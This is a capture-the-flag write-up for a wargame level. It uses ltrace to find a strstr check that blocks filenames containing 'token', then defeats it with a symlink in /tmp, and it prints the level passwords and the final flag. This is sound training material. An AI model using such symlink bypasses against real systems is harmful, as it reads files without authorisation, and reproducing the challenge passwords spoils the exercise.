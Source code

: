 ```bash
$ su level08 -> fiumuikeil55xe9cu4dood66h
```

### Vulnerability Assessment

The `level08` executable and a file named `token` are present in the directory. When attempting to read the `token` file using `level08`, access is denied. However, reading other files, like a created test file in `/tmp`, works fine:

```bash
$ ./level08
./level08 [file to read]
$ ./level08 token
You may not access 'token'
$ echo 'hello' > /tmp/test
$ ./level08 /tmp/test
hello

```

Using `ltrace`, it's observed that `strstr` is employed to check if the filename includes the substring "token". The program exits if "token" is part of the filename, indicating a protective measure against directly reading the `token` file.

```bash
$ ltrace ./level08 /tmp/test
__libc_start_main(0x8048554, 2, 0xbffff7d4, 0x80486b0, 0x8048720 <unfinished ...>
strstr("/tmp/test", "token")                                                          = NULL
open("/tmp/test", 0, 014435162522)                                                    = 3
read(3, "hello\n", 1024)                                                                = 4
write(1, "hello\n", 4123
)                                                                  = 4
```

### Exploit

To bypass this filename check, a symbolic link can be created. The link points to the `token` file but does not include "token" in its name. This would pass the `strstr()` comparison, allowing `level08` to open the actual `token` file:

1. Create a symbolic link to `token` with a different name:
    
    ```bash
    $ ln -s /home/user/level08/token /tmp/flag
    
    ```
    
2. Use `level08` to read the symbolic link:
    
    ```bash
    $ ./level08 /tmp/flag
    quif5eloekouj29ke0vouxean
    
    ```
    

By following these steps, the program reads the content of the `token` file via the symbolic link, bypassing the filename check. Consequently, the actual content of the `token` file is revealed, providing the necessary information to switch to `flag08` and retrieve the final token:

```bash
$ su flag08 -> quif5eloekouj29ke0vouxean
$ getflag
Check flag.Here is your token : 25749xKZ8L7DkSCwJkT9dyv6f
```
